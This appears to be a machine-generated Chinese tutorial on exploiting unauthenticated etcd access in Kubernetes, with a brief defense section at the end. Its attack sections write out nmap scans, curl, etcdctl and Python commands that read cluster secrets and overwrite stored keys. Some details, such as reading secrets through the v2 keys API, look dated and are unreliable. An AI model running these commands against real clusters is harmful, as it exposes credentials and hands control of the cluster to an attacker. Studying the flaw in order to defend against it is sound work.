 # ETCD未授权访问利用的案例分析

## 1. 技术原理解析

### 1.1 ETCD简介
ETCD是一个分布式键值存储系统，通常用于Kubernetes等容器编排系统中存储配置数据和元数据。由于其重要性，ETCD的安全性至关重要。然而，默认配置下，ETCD可能允许未授权访问，导致敏感信息泄露或系统被控制。

### 1.2 未授权访问漏洞
ETCD默认监听在2379端口，且在没有配置认证机制的情况下，任何能够访问该端口的用户都可以读取或修改ETCD中的数据。这种未授权访问漏洞可能导致以下风险：
- **敏感信息泄露**：如Kubernetes的Secrets、ConfigMaps等。
- **系统控制**：通过修改Kubernetes的配置，攻击者可以控制整个集群。

### 1.3 底层实现机制
ETCD使用HTTP/HTTPS协议进行通信，默认情况下，ETCD的API接口是开放的。如果未启用TLS加密和认证机制，攻击者可以通过简单的HTTP请求访问ETCD的API，获取或修改数据。

## 2. 变种和高级利用技巧

### 2.1 未授权访问的变种
- **默认端口访问**：攻击者通过扫描发现2379端口开放，直接访问ETCD。
- **内网渗透**：通过内网渗透手段，攻击者访问到ETCD服务。
- **中间人攻击**：如果ETCD未启用TLS，攻击者可以通过中间人攻击窃取数据。

### 2.2 高级利用技巧
- **数据篡改**：通过修改Kubernetes的配置，攻击者可以部署恶意Pod或Service。
- **持久化后门**：通过修改ETCD中的数据，攻击者可以在集群中植入持久化后门。
- **权限提升**：通过修改RBAC配置，攻击者可以提升自己的权限，获取集群管理员权限。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
1. **安装ETCD**：
   ```bash
   sudo apt-get update
   sudo apt-get install etcd
   ```
2. **启动ETCD**：
   ```bash
   etcd --listen-client-urls http://0.0.0.0:2379 --advertise-client-urls http://localhost:2379
   ```
3. **安装Kubernetes**：
   ```bash
   sudo apt-get install -y kubelet kubeadm kubectl
   sudo kubeadm init
   ```

### 3.2 攻击步骤
1. **发现ETCD服务**：
   ```bash
   nmap -p 2379 192.168.1.0/24
   ```
2. **访问ETCD API**：
   ```bash
   curl http://192.168.1.100:2379/v2/keys/?recursive=true
   ```
3. **获取Kubernetes Secrets**：
   ```bash
   curl http://192.168.1.100:2379/v2/keys/registry/secrets/default/mysecret
   ```
4. **修改Kubernetes配置**：
   ```bash
   curl -X PUT -d '{"value":"newvalue"}' http://192.168.1.100:2379/v2/keys/registry/configmaps/default/mymap
   ```

## 4. 实际命令、代码或工具使用说明

### 4.1 使用ETCDCTL
1. **安装ETCDCTL**：
   ```bash
   sudo apt-get install etcd-client
   ```
2. **列出所有键**：
   ```bash
   etcdctl --endpoints=http://192.168.1.100:2379 ls / --recursive
   ```
3. **获取特定键的值**：
   ```bash
   etcdctl --endpoints=http://192.168.1.100:2379 get /registry/secrets/default/mysecret
   ```
4. **修改键的值**：
   ```bash
   etcdctl --endpoints=http://192.168.1.100:2379 set /registry/configmaps/default/mymap newvalue
   ```

### 4.2 使用Python脚本
```python
import requests

def get_etcd_keys(endpoint, key):
    url = f"{endpoint}/v2/keys/{key}?recursive=true"
    response = requests.get(url)
    return response.json()

def set_etcd_key(endpoint, key, value):
    url = f"{endpoint}/v2/keys/{key}"
    data = {"value": value}
    response = requests.put(url, json=data)
    return response.json()

endpoint = "http://192.168.1.100:2379"
key = "/registry/secrets/default/mysecret"

# 获取键的值
print(get_etcd_keys(endpoint, key))

# 修改键的值
set_etcd_key(endpoint, key, "newvalue")
```

## 5. 防御措施
1. **启用TLS**：配置ETCD使用TLS加密通信。
2. **启用认证**：配置ETCD使用用户名和密码或客户端证书进行认证。
3. **网络隔离**：限制ETCD服务的访问范围，仅允许信任的IP地址访问。
4. **定期审计**：定期审计ETCD的配置和访问日志，及时发现异常行为。

## 6. 总结
ETCD未授权访问漏洞是一个严重的安全问题，可能导致敏感信息泄露和系统被控制。通过理解其技术原理和攻击手法，可以更好地防御此类漏洞。在实际环境中，务必采取有效的安全措施，确保ETCD服务的安全性。

---

以上文档详细解析了ETCD未授权访问利用的技术原理、变种和高级利用技巧，并提供了攻击步骤和实验环境搭建指南，以及实际命令、代码或工具使用说明。通过该文档，读者可以深入理解ETCD未授权访问漏洞，并掌握其防御方法。

---

*文档生成时间: 2025-03-14 13:10:59*
